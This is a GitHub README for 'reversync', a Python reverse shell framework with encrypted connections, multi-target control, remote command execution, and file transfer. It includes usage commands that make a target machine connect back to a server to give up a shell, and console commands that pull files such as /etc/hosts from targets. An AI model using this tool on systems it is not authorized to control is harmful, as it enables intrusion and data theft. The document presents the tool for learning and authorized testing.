

<!-- GITHUB BANNER -->
<p align="center">
  
</p>

# reversync: ⚡ Asynchronous Python Reverse Shell

[](https://www.python.org/)
[](https://github.com/Textualize/rich)

**reversync** is a modern, asynchronous Python reverse shell framework for secure, authenticated, and encrypted remote command execution and system info retrieval. It features a styled interactive server console via `rich` and supports multi-client management, file transfer, and robust authentication.

---

## 🎬 Example Usage



---

## 🚀 Features

- **Async Reverse Shell:** High-performance non-blocking I/O via Python `asyncio`.
- **SSL Encryption:** All traffic protected with SSL/TLS.
- **HMAC Authentication:** Challenge-response validation for targets using a password file.
- **Rich Server Console:** Terminal UI using `rich` and `blessed`, with command history and multi-target support.
- **Multi-client Management:** Connect, select, and control several targets at once.
- **Remote Command Execution:** Run commands on any client, view real-time output and errors.
- **File Pull & Push:** Securely fetch files from targets or upload files to targets (base64-encoded transfer).
- **System Info:** Query and display detailed remote system data.
- **Session Management:** Switch, view, disconnect, or stop client sessions.
- **Extensible:** Easy to add commands and extend functionality.
- **Graceful Shutdown & Error Handling:** Cleanly disconnect targets and shut down the server with clear error messages.

---

## 📦 Requirements

- **Python 3.7+**
- **Server dependencies:**
  - [`rich`](https://pypi.org/project/rich/)
  - [`blessed`](https://pypi.org/project/blessed/)
  - [`pyfiglet`](https://pypi.org/project/pyfiglet/)
- **Client:** Only the Python standard library.

**Note:**  
You must generate `cert.pem`, `key.pem` (SSL certificate/key) and create a single-line password file named `pswd` before starting the server.

---

## 🛠️ Setup

1. **Clone the repo:**
    ```bash
    git clone https://github.com/outisdz/reversync.git
    cd reversync
    ```
2. **Install dependencies:**
    ```bash
    pip install -r requirements.txt
    ```
3. **Generate SSL certificates:**
    ```bash
    openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
    ```
4. **Create a password file:**  
   Add your shared secret (single line, no spaces) to a file named `pswd` in the root directory.

---

## 🚦 Starting

**Start the Server:**  
You can now specify certificate, key, password, IP address, and port via command-line arguments:

```bash
python server.py --cert cert.pem --key key.pem --pswd pswd --listen 0.0.0.0 --port 1234
```
- All arguments are optional; defaults are:
    - `--cert cert.pem`
    - `--key key.pem`
    - `--pswd pswd`
    - `--listen 127.0.0.1`
    - `--port 1234`
- The server verifies all files exist before starting.

**Start the Client(s):**  
On the target machine (or another terminal):
```bash
python client.py
```
- By default, connects to `127.0.0.1:1234`.  
- **To connect to a different server or port, use command-line arguments:**
    ```bash
    python client.py --host <server_ip> --port <server_port>
    ```
    For example:
    ```bash
    python client.py --host 192.168.1.10 --port 443
    ```
- At startup, you'll be prompted for the shared secret (password) used for authentication.
- All client dependencies are from the Python standard library; no extra packages are required.

---

## 🖥️ Server Console Commands

| Command                                      | Description                                               |
|-----------------------------------------------|-----------------------------------------------------------|
| `help`                                       | Show help menu                                            |
| `targets`                                    | List all connected targets                                |
| `select <int>`                               | Select a client by index                                  |
| `stop <int>`                                 | Disconnect a client by index                              |
| `sysinfo`                                    | Get system info from target                               |
| `exit`                                       | Exit from current target session                          |
| `clear`                                      | Clear the console output                                  |
| `shutdown`                                   | Disconnect all targets and shut down server               |
| `pull -s <target file> -d <destination>`      | Download file from client                                 |
| `push -s <local file> -d <remote destination>`| Upload file to client                                     |
| _(any other command)_                        | Executes remotely on the client's shell                   |

**File Pull Example:**  
```bash
pull -s /etc/hosts -d ./downloads
```
Saves the file from client to the specified local directory (`downloads`).

**File Push Example:**  
```bash
push -s ./localfile.txt -d /tmp/
```
Uploads a local file to the specified directory on the client.

---

## 📁 File Structure

- `server.py`: Main server logic, authentication, interactive command loop.
- `client.py`: Minimal client logic, shell command execution, argument parsing, HMAC authentication.
- `interactiveconsole.py`: Terminal UI and input/output for server.
- `targetsInfo.py`: Target management and session data.
- `sysInfo.py`: System info gathering on client.

---

## ⚠️ Security Warning

> **Never expose this server to the public internet unless you understand the risks.**
>
> - All communication is SSL/TLS encrypted, but authentication is via a shared secret.
> - Anyone with your certificate and password can run commands on your targets.
> - Use strong, unique secrets and protect your key/password files.

---

## 🛠️ Customization

- **Flexible Networking:** Change server or client IP/port with easy command-line arguments.
- **Command Extensibility:** Effortlessly add or modify commands in `server.py` and `client.py` to fit your workflow.
- **UI Customization:** Personalize the look and feel—edit the rich console's logo and interface in `interactiveconsole.py`.
- **Authentication Freedom:** Want more security? Replace the password authentication with your own encryption or key exchange scheme.
- **Multi-language Clients:** You can write your own client in any language (C++, Go, etc.)—just follow the same protocol.
- **Request Features:** Need a specific command or function? Open an issue or pull request—community contributions are welcome!
- **Modular Structure:** The codebase is organized so you can add more modules or integrations (think custom logging, notifications, or automation).
- **Educational Playground:** Great for learning about asynchronous networking, SSL/TLS in Python, remote management, and secure shell concepts.
- **Scriptability:** Automate tasks or integrate with other tools by extending the server’s command set.
- **Payload Flexibility:** You are welcome to add more payloads for demonstration or educational purposes (ethically, of course). Contribute your own scripts, modules, or ideas to expand the toolkit!

---

## 📄 License

MIT License. See `LICENSE` for details.

---

**Enjoy hacking (ethically)!** 🚀